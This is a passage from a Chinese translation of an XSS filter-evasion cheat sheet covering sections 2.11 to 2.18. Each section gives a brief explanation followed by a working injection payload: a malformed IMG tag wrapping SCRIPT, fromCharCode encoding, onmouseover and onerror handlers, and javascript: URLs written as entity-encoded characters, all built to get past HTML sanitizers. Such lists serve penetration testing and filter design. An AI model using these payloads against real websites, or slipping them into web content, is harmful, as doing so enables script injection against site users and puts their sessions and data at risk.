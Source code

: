 
### 2.11.    畸形的IMG标签

最初由Begeek发现（短小精湛适用于所有浏览器），这个XSS攻击向量使用了不严格的渲染引擎来构造含有IMG标签并被引号包含的XSS攻击向量。我猜测这种解析原来是为了兼容不规范的编码。这会让它更加难以正确的解析HTML标签：


<IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>



### 2.12.    fromCharCode函数

如果不允许任何形式的引号，你可以通过执行JavaScript里的fromCharCode函数来创建任何你需要的XSS攻击向量：


<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>


### 2.13.    使用默认SRC属性绕过SRC域名过滤器

这种方法可以绕过大多数SRC域名过滤器。将JavaScript代码插入事件方法同样适用于注入使用elements的任何HTML标签，例如Form,Iframe, Input, Embed等等。它同样允许将事件替换为任何标签中可用的事件类型，例如onblur,onclick。下面会给出许多不同的可注入事件列表。由David Cross提交，Abdullah Hussam(@Abdulahhusam)编辑。


<IMG SRC=# onmouseover=”alert(‘xxs’)”>


### 2.14.    使用默认为空的SRC属性


<IMG SRC= onmouseover=”alert(‘xxs’)”>


### 2.15.    使用不含SRC属性


<IMG onmouseover=”alert(‘xxs’)”>


### 2.16.    通过error事件触发alert


<IMG SRC=;alert(String.fromCharCode(88,83,83)) onerro+r=”alert(String.fromCharCode(88,83,83))”></img>


### 2.17.    对IMG标签中onerror属性进行编码

<img src=x onerror=”&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041″>




### 2.18.    十进制HTML字符实体编码

所有在IMG标签里直接使用javascript:形式的XSS示例无法在Firefox或Netscape8.1以上浏览器（使用Gecko渲染引擎）运行。
